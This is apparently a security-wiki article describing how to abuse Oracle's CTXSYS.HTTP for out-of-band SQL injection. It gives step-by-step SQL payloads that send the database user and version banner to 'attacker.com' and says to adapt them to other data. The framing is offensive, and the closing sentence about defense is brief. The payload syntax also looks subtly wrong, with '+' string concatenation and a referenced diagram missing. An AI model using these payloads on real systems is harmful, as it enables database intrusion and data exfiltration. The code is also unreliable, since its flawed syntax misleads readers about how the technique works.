

# CTXSYS.HTTP

## Context

Oracle databases, renowned for their robustness, can still be vulnerable to SQL injection attacks when improperly configured. One specific attack vector comes through functional components like `CTXSYS.HTTP`, which belong to the Oracle Text component. Such components can be exploited to perform out-of-band SQL injection, sending data to an attacker-controlled server through external network HTTP calls. This technique allows attackers to exfiltrate sensitive data even when a direct connection or response is not feasible.

In this article, we will explore how to leverage `CTXSYS.HTTP` for out-of-band SQL injection, enabling attackers to extract data from Oracle databases.

## Theory

The core idea behind exploiting `CTXSYS.HTTP` involves abusing the functional capabilities of Oracle Text, which can make HTTP requests. By injecting SQL commands into this function, attackers can exfiltrate data indirectly through crafted network requests.



In this diagram, we identify `CTXSYS.HTTP` as a node under out-of-band injection techniques specific to Oracle SQL, illustrating its relationship within a broader context of SQL injection methods.

## Practice

### Exploitation via CTXSYS.HTTP in Oracle

The following steps describe how to execute an out-of-band injection using `CTXSYS.HTTP` in an Oracle database environment:

#### Step 1: Establish a Database Connection

To begin, connect to the Oracle database using a tool such as SQL*Plus. Ensure that the user credentials have the necessary privileges to execute functions under `CTXSYS`.

```bash
sqlplus username/password@hostname/SID
```

#### Step 2: Prepare the Exploit with CTXSYS.HTTP

Craft a payload using the `CTXSYS.DRIFUNC.HTTP` function to perform an out-of-band data exfiltration. This function can be leveraged to send an HTTP request, allowing data encoded in the request parameters to be sent to an attacker-controlled server.

```sql
EXEC CTXSYS.DRIFUNC.HTTP('http://attacker.com/'+ (SELECT user FROM dual));
```

#### Step 3: Monitor Out-of-Band Channel

Set up an HTTP server at the specified attacker URL (e.g., `http://attacker.com/`) to capture the HTTP requests. This server will receive exfiltrated data, which can be observed using network monitoring tools.

### Payload Construction for Data Extraction

To extract specific data using the out-of-band technique, tailor the payload to target specific database information. For instance, to retrieve version information:

```sql
EXEC CTXSYS.DRIFUNC.HTTP('http://attacker.com/'+ (SELECT banner FROM v$version));
```

Adapt the SQL expression within the payload to target different data sets as required.

### Tools

- **SQL*Plus**: For executing SQL commands and payloads.
- **Wireshark**: To monitor network traffic and validate outbound HTTP requests.
- **Burp Suite**: For analyzing and capturing HTTP requests exchanged between the database and the attacker-controlled server.
- **Custom HTTP Server**: For receiving and logging data exfiltrated during the attack.

### Result Usage

Successful exploitation of `CTXSYS.HTTP` can yield valuable data, such as:

- Extracted user credentials.
- Identified Oracle database version.
- Additional insights that can facilitate further exploitation of the database environment.

By leveraging these procedures, attackers can perform advanced SQL injection attacks that result in significant data breaches, particularly in environments where traditional methods are restricted by network configurations or database security policies. It is crucial to comprehend these techniques to safeguard databases from potential exploitation.